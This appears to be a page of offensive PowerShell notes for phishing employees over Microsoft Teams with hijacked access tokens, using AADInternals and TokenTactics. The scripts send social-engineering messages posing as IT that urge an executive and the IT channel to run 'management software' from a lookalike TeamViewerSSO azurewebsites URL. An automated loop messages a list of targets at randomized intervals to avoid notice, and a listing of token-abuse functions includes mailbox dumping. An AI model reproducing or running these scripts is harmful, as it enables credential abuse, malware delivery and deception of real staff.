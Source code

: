 ```powershell

Start-Sleep -Seconds 180

Send-AADIntTeamsMessage -AccessToken $MSTeamsToken.access_Token -Recipients $target3 -Message "Sorry to bother you sir, IT needs you to update our management software for youre device to remain compliant. You might lose access to your email/teams until you do. Please run this when you get a chance shouldn't take long: $url. Thank you!"
Start-Sleep -Seconds 160

# Send to the IT Team Channel
Send-AADIntTeamsMessage -AccessToken $MSTeamsToken.access_Token -Recipients $target2 -Message "Team, sorry to bother you, we're having everyone update the remote management software on their workstation. Just run this when you get a chance shouldn't take long: $url"
```

## Automated Teams Payload Phishing

```powershell
$app2 = "TeamViewerSSO"
$url = "http://$app2.azurewebsites.net"
$targetList = Get-Content .\users.txt
# Loop through the target list
foreach ($target in $targetList) {
    # Set a random sleep duration between 2.5 and 7.5 minutes
    $sleepSeconds = Get-Random -Minimum 150 -Maximum 451
  
    # Send the Teams message
    RefreshTo-MSTeamsToken -domain $tenant -refreshToken $response.refresh_token
    $MSTeamsToken.access_Token
    
    $message = "Hey, sorry to bother, we're having everyone update the remote management software on their workstation. Please run this when you get a chance shouldn't take long: $url"
    
    Send-AADIntTeamsMessage -AccessToken $MSTeamsToken.access_Token -Recipients $target -Message $message
  
    # Wait for the random sleep duration
    Start-Sleep -Seconds $sleepSeconds
 	}
```

### Token Tactics Help
```powershell
Clear-Token -Token All

Connect-AzureAD -AadAccessToken $response.access_token -AccountId "targettim@shrine.cloud"



# Get-Command -Module TokenTactics
# CommandType Name Version Source
# ———– —- ——- ——
# Function Clear-Token 0.0.1 TokenTactics
# Function Dump-OWAMailboxViaMSGraphApi 0.0.1 TokenTactics
# Function Forge-UserAgent 0.0.1 TokenTactics
# Function Get-AzureToken 0.0.1 TokenTactics
# Function Get-TenantID 0.0.1 TokenTactics
# Function Open-OWAMailboxInBrowser 0.0.1 TokenTactics
# Function Parse-JWTtoken 0.0.1 TokenTactics
# Function RefreshTo-AzureCoreManagementToken 0.0.1 TokenTactics
# Function RefreshTo-AzureManagementToken 0.0.1 TokenTactics
# Function RefreshTo-DODMSGraphToken 0.0.1 TokenTactics
# Function RefreshTo-GraphToken 0.0.1 TokenTactics
```